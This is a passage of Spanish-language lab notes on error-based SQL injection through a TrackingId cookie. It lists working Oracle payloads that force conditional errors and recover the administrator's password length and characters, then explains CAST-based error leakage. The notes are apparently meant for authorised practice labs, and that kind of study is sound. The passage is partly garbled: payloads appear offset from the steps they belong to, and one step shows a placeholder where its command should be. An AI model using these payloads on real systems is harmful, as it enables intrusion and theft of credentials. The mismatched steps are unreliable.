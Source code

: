 4. Consultar una tabla inexistente para verificar que la inyección se procesa como SQL (debe devolver un error distintivo).
   **TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'** (consulta contra tabla inexistente).

5. Verificar existencia de tablas concretas asegurando que la subconsulta sea escalar (p. ej. limitando filas).
   **AQUÍ VAN LOS COMANDOS** (consulta de comprobación de existencia de tabla con limitación a 1 fila).

6. Probar condiciones condicionales que generen error solo si la condición es verdadera (p. ej. mediante expresiones condicionales del motor).
   **TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'** (casos condicionantes con error controlado).

7. Extraer longitud de un campo probando iterativamente (aumentando umbral) y observar cuándo la condición deja de producir error.
   **TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'** (pruebas de longitud).

8. Extraer carácter a carácter utilizando una herramienta de automatización en laboratorio (p. ej. Burp Intruder) y un conjunto de cargas útiles definido.
   **TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'** (configuración de Intruder y marcador de payload).

9. Usar la información obtenida para el objetivo del laboratorio (p. ej. autenticación en entorno de práctica).
   **TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'** (uso final en lab).

---

## Precauciones y condiciones necesarias (conceptual)

* Asegúrate de trabajar **solo** en entornos autorizados.
* Comprueba si las subconsultas deben devolver una sola fila (subconsultas escalares).
* Evita mezclar tipos incompatibles en la misma expresión para no provocar errores no informativos.
* Conoce la sintaxis y las funciones del motor de base de datos del laboratorio (SUBSTR/SUBSTRING, LIMIT, ROWNUM, etc.).

---


## Mensajes de error SQL detallados

Al insertar algo en una consulta esta puede dar un error que contengan muchos detalles : Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
Aqui muesta la conuta completa que la aplicaion hace.

Ocasionalmente, se puede inducir a la aplicacion para que genere mensaje de error que contenga algunos datos devueltos por la consulta. 
Utilizar el CAST() permite combertir un tipo de datos a otro.
```Ejemplo : CAST((SELECT exemple_column FROM example_table) AS int)```
Usualmente los datos que se intentan leer son una cadena. Esto convierte a un tipo de datos incompatible, como un int, puede probocar un error como : 
ERROR: invalid input syntax for type integer: "Example data"

# 🧪 LAB 2 — Inyección SQL Basada en Errores

## Objetivo

Identificar y explotar un punto vulnerable en el parámetro `TrackingId` para provocar errores que revelen información sensible de la base de datos (usuarios y contraseñas).

---

## 1️⃣ Probar error inicial

```